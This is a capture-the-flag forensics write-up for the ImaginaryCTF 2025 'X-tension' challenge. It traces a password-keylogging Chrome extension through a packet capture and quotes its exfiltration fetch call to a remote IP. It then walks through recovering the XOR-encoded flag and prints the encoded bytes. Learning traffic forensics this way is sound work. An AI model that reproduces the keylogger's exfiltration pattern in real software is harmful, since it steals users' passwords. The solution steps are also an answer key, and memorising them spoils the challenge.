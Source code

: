 # X-tension 

| Category   | Difficulty |
| -----------|:----------:|
| Forensics  | Easy       |

## Challenge Description
Trying to get good at something while watching youtube isn't the greatest idea...

## Attachment(s)
[chal.pcapng](https://github.com/ImaginaryCTF/ImaginaryCTF-2025-Challenges/blob/main/Forensics/x-tension/dist/chal.pcapng)

***

## Walkthrough
Given that we have a PCAP (packet capture) file, I used [Wireshark](https://www.wireshark.org/) to start analyzing the captured network traffic.

When analyzing PCAP files using Wireshark, it is helpful to look at the **Statistics** menu, which provides high-level statistics of the network traffic (protocols, host addresses, etc.) Documentation on Wireshark statistics can be found [here](https://www.wireshark.org/docs/wsug_html_chunked/ChStatistics.html).

I started looking at the HTTP web requests, found under **Statistics > HTTP > Requests**. This shows a list of all HTTP requests by destination address along with what was requested. 

![HTTP requests](../screenshots/xtension_http_requests.PNG)

We have two interesting findings:
* FunnyCatPicsExtension.crx (Google Chrome extension)
* Seemingly encrypted requests to a suspicous IP

<br> **Examining the CRX file:** <br>
 I exported the the CRX file from the PCAP (**File > Export Objects > HTTP** then select the file you want to Save) but the file type couldn't be directly opened in Kali Linux. I used [CRX Extractor](https://crxextractor.com/) to convert the CRX file to a ZIP to dig into the contents.

![CRX to ZIP](../screenshots/xtension_funnycatzip.PNG)

 The **contents.js** file is heavily objuscated code with this interesting snippet: `fetch('http://192.9.137.137:42552/?t=` which relates to the other HTTP requests found before.

Admittedly I copy/pasted this code into Google Gemini to understand what it does, and had the following takeaways:
* This file _listens to keystrokes if the event's target element is an input field with the type attribute set to 'password'_
* The captured keystroke is _encrypted using a simple XOR cipher, then URL-encoded before being sent to the remote IP via the query paramter t_

<br> **Pivoting back to Wireshark:** <br>
Knowing that we have passwords being exfilttrated via web requests, I went back to Wireshark to find the relevant packets. Using the display filter **http.request.method=="GET"** lists the GET requests (or keystrokes) in order.

![GET requests](../screenshots/xtension_GETrequests.PNG)

<br> **Decrypting the data:** <br>
Now we have the exfiltrated keystrokes in order: 5e 54 43 51 4c 52 4f 43 52 59 44 5e 58 59 44 68 5a 5e 50 5f 43 68 5d 42 44 43 68 44 42 54 5c 4a

I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the keystrokes and got the flag using the recipe **From Hex > XOR Brute Force** which resulted in the flag. 

Challenge solved! :sunglasses:
